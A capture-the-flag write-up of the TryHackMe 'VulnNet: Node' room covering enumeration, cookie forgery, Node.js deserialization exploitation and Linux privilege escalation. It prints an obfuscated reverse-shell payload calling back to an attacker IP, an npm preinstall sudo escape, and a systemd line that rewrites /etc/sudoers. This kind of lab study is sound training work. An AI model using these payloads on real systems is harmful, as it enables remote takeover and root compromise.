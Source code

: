 ```yaml
---
title: "VulnNet Node TryHackMe"
date: "07-23-2021"
author: "Reda BELHAJ"
summary: "VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network. This room is Created by TheCyb3rW0lf"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/VulnNet/bg.jpg"
---
```


Let’s take a look at the [VulnNet: Node CTF](https://tryhackme.com/room/vulnnetnode) on TryHackMe.

## Enumeration
### Nmap Scan

The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.143.49 -sC -sS -Pn
```
The “Nmap Output” displayed `1` service running under port 8080 you guessed it that's HTTP.
![Nmap](/images/VulnNet/nmap.jpg)
Connecting to this port in a browser shows a web page with posts

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:
![Gobuster](/images/VulnNet/gobuster.jpg)

## Exploring 
Let's take a closer look at the web application. When we visit the website, we are presented with a regular online application  with posts from users.

So by Exploring the web app I saw the Welcome guest header and I decided to intercept the servers main page request using burpsuite, And I found:
![Burp](/images/VulnNet/burp.jpg)

A session cookie is visible in the request. So I sent the cookie to the decoder Tab:
![Decode](/images/VulnNet/decode.jpg)

So by decoding the cookie We have some JSON informations, My first assumption was maybe we could be able to bypass the application and I tried to set a new cookie with:
![Encode](/images/VulnNet/encode.jpg)

Then I replaced the guest cookie with the encoded modified cookie and it output the following:
![Admin](/images/VulnNet/admin.jpg)

![Admin 2](/images/VulnNet/admin2.jpg)

Next I decided to go to /login but I didn't found nothing, So I began to consider that maybe the login page is a rabbit hole and I came up with this idea 🤔 .

> What if I sent an invalid cookie

![Error](/images/VulnNet/error.jpg)

## Exploiting

Searching for “nodejs unserialize reverse shell” leads to [this page](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) which I followed to generate the reverse shell payload. and I also came across [this repository](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) and I run this command:

```
python nodeshell.py 127.0.0.1 4444
```

Now let’s generate the serialized payload and add:

```
{"rce":"_$$ND_FUNC$$_function (){// The payload //}()"}
```

```
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,56,46,49,55,52,46,49,56,48,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}

```
Finally, base64-encode the serialized payload as follows:
![payload](/images/VulnNet/encodepaylo.jpg)

## User Flag
And now I got the reverse shell as `www`
So I checked [GTFObins](https://gtfobins.github.io/gtfobins/npm/#sudo) so that I spawn a bash shell as `serv-manage`.
![sudo](/images/VulnNet/sudo.jpg)

```
echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json
sudo -u serv-manage /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i
```
Let’s get the user flag in /home/serv-manage

```
THM{0********************************
```

## Root Flag
So now I tried the infamous `sudo -l` comand to privilege escalate the system again:

![sudo 2](/images/VulnNet/sudo2.jpg)

```
cat /etc/systemd/system/vulnnet-auto.timer
```
The service executes df system command:

```
[Unit]
Description=Run VulnNet utilities every 30 min
 
[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/1
Unit=vulnnet-job.service
 
[Install]
WantedBy=basic.target
```
So Now I added this line in the file:

```
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

And now we're root, Let's check the root dir for a flag:

```
THM{a********************************
```